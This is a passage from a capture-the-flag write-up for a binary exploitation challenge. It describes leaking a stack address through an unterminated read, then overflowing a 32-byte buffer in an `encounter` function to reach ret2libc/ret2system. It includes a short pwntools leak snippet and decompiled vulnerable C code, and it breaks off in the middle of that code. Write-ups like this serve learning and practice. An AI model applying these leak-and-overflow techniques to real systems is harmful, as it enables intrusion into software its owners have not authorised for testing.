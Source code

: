 
## Summary

Leak in `start` then pivot to continue `bof` with the stack. Here you actually can just call `read_log` but i stupidly decided to leak the libc via `got` using `start + 45`. After finding the right libc just do `ret2system`

## Solution

We were given a chall binary, when decompile there is input where it not end with null in `start` function and `BOF` in encounter. To solve this problem you can just ret2win with `read_log` but i didn't realize that function for what so ended it up doing ret2libc to find the libc.

First to leak the address we can give input size of the buffer, so that it leaks the stack next to it.
```python
sa("? ", b"a"*0x20)
ru("a"*0x20)
stack = u64(ru("DM").ljust(8, b"\x00"))
target = stack - 0x48
```

![alt](../../../img/CTFNational/COMPFEST_17_CTF_Qual/InputStack.png)

After that we can enter BOF state where there is check `if (saved_ra != (void *)dm_secret)` to be pass.

```C
static uintptr_t encounter(void) {
    uintptr_t result;
    char action_input[32];
    void *saved_ra = __builtin_return_address(0);  // mirrors the decompiler's retaddr capture

    dm_secret = (uintptr_t)saved_ra;

    puts("DM: Your party stumbles upon an angry demigod.");
    puts("DM: You have 10 seconds to do something that gets your party out alive");
    printf("You do: ");
    alarm(10);
    fgets(action_input, 80, stdin);  // overflow: reads up to 79+NUL into a 32-byte buffer
    alarm(0);

    result = dm_secret;
    if (saved_ra != (void *)dm_secret) {
        puts("DM: The god of nature swats you for disturbing the flow of nature");
```